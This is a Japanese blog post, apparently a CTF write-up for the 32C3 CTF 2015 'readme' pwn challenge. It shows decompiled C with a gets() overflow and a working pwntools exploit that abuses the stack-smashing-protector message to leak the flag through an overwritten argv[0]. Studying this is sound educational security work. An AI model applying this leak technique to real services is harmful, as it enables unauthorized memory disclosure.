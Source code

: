 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/02/32c3-ctf-readme/
date: 2016-01-02T23:20:13+09:00
tags: [ "ctf", "writeup", "pwn", "xinetd", "buffer-overflow", "stack-smashing-protection" ]
---
```


# 32C3 CTF readme

手decompileした結果を眺めてみて、flagを取り出す方法が分からなかったので、他人のwriteupを見て解いた。初心者が初見で解くのはつらい問題だと感じる。

## [pwn 200: readme](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200)

>   Can you [read]() the flag?  
>   >   nc 136.243.194.62 1024

入力が2回あるバイナリ。1回目の入力にstack上のbuffer overflowがある。ただしsspがある。

``` sh
$ ./readme.bin
Hello!
What's your name? XXX
Nice to meet you, XXX.
Please overwrite the flag: YYY
Thank you, bye!

$ checksec --file readme.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   readme.bin

$ perl -e 'print "X"x300,$/, "X",$/' | ./readme.bin
Hello!
What's your name? Nice to meet you, XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated
======= Backtrace: =========
/usr/lib/libc.so.6(+0x72055)[0x7fdb53982055]
/usr/lib/libc.so.6(__fortify_fail+0x37)[0x7fdb53a095d7]
/usr/lib/libc.so.6(__fortify_fail+0x0)[0x7fdb53a095a0]
./readme.bin[0x4008ae]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:02 5252127                            /home/user/readme.bin
...
```

decompileすると以下のようになっている。

``` c
#include <stdio.h>
#include <stdlib.h>
int canary = 0; // randomized?
char flag[] = "32C3_TheServerHasTheFlagHere\x2e\x2e\x2e";
void func(void) {
    char buf[0x118];
    buf[0x108] = canary;
    __printf_chk(1, "Hello!\nWhat's your name? ");
    if (gets(buf) == NULL) {
        exit(1);
    }
    __printf_chk(1, "Nice to meet you, %s.\nPlease overwrite the flag: ", buf);
    for (register int i = 0; i < 20; ++i) {
        register int c = getc(stdin);
        switch (c) {
            case EOF:
                exit(1);
            case '\n':
                memset(flag + i, 0, 0x20 - i);
                break;
            default:
                flag[i] = c;
        }
    }
    puts("Thank you, bye!");
    /* canary check */
    if (buf[0x108] != canary) {
        __stack_chk_fail();
    }
}
int main(void) {
    setbuf(stdout, NULL);
    func();
    return 0;
}
```

他のwriteup曰く、

-   sspによる`*** stack smashing detected ***: ./readme.bin terminated`によって`argv[0]`の値を表示できるので、これを書き換える。
-   上の出力は端末に直接吐かれるが、環境変数`LIBC_FATAL_STDERR_=1`と指定しておくと標準エラー出力に流れてきて、network越しでも見えるようになる。
-   flagは`.data` sectionである`0x600d20`にあり、後に上書きされるが、`0x400d20`にも書き込まれている。

ということなので、その通りにやればflagが出てくる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--local', action='store_true')
args = parser.parse_args()

context.log_level = 'debug'
if args.local:
    p = process('./readme.bin')
else:
    p = remote('136.243.194.62', 1024)

p.sendline(
    'X' * 0x210 # ($rsp at 0x4006ee, entry point) - ($rsp at 0x40080e, before gets)
    + p64(1) # argc
    + p64(0x400d20) # argv[0] <- flag
    + p64(0x0) # argv sentinel
    + p64(0x600d20) # envp[0] <- overwritten flag
    )
p.sendline('LIBC_FATAL_STDERR_=1')
p.recvall()
```

[Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)というのを教えてもらったので使ってみた。

### 参考

-   <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/>
-   <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/>
-   <http://stackoverflow.com/questions/4290336/how-to-redirect-runtime-errors-to-stderr>
-   <http://softwaretechnique.jp/OS_Development/Supplement/Binary/elf_stack.html>
